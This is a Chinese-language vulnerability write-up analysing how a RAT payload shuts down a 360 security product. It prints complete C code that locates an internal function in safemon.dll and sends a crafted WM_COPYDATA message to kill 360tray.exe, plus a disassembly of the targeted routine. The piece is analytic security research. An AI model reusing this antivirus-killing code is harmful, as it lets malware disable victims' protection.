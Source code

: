 ## 某数字卫士溢出漏洞分析（一）

通分析某RAT payload运行后可以关闭某数字安全卫士，根据rat payload逆向分析发现该rat只是运行了以下代码：

```

HMODULE h360 =GetModuleHandle(TEXT("safemon.dll"));
int i = 0;
for (i = 0; i<0x30000; i++)
{
if (memcmp((BYTE *)(h360+i), "\x83\xEC\x10\x56\x8D\x44\x24\x04\x50",9)==0)
{
         break;
}
}
if (i==0x30000)
{
return;
}
FARPROC funcGet360HWND = (FARPROC)(h360+i);
HWND hWnd = (HWND)funcGet360HWND();
COPYDATASTRUCT cpdata;
cpdata.dwData = 0x4d47534d;
cpdata.cbData = 0x1000;
cpdata.lpData = msgbuf;  //长度0x1000字节的随即数据，其中不能有连续\x00\x00
SendMessage(hWnd, WM_COPYDATA, NULL,(LPARAM)&cpdata);
```

我们自己用上面代码运行之后，360安全卫士的进程（360tray.exe）就自动退出了。注意：这个程序必须是带窗口的程序，而不能使控制台程序，因为控制台程序是不加载safemon.dll的。

### **攻击原理**

上面如此简单的代码就能导致关闭360，我们来看一下这段代码到底做了什么？首先获得safemon.dll的模块地址，每个有图形界面都会加载这个dll。然后从这个模块里找一处特征代码，经分析发现找的是以下代码：

```
67366570   83EC 10         sub     esp, 10
67366573   56              push    esi
67366574   8D4424 04       lea     eax, dword ptr [esp+4]
67366578   50              push    eax
67366579   6A 00           push   0
6736657B   8D4C24 10       lea     ecx, dword ptr [esp+10]
6736657F   51              push    ecx
67366580   68 40653667     push    67366540
67366585   6A 00           push    0
67366587   6A 00           push    0
67366589   C74424 20 E48D4>mov     dwordptr [esp+20], 67418DE4                   ; ASCII "Q360SafeMonClass"
67366591   C74424 24 00000>mov     dwordptr [esp+24], 0
67366599   C74424 28 00000>mov     dwordptr [esp+28], 0
673665A1   FF15 10D34067   call    dword ptr [<&KERNEL32.GetCurrentProcess>]       ; kernel32.GetCurrentProcess
673665A7   50              push    eax
673665A8   FF15 58D14067   call    dword ptr[<&KERNEL32.CreateRemoteThread>]     ; kernel32.CreateRemoteThread
673665AE   8BF0            mov     esi,eax
673665B0   85F6            test    esi, esi
673665B2   74 10           je      short 673665C4
673665B4   6A FF           push    -1
673665B6   56              push    esi
673665B7   FF15 24D14067   call    dword ptr [<&KERNEL32.WaitForSingleObject>]     ; kernel32.WaitForSingleObject
673665BD   56              push    esi
673665BE   FF15 20D34067   call    dword ptr[<&KERNEL32.CloseHandle>]            ; kernel32.CloseHandle
```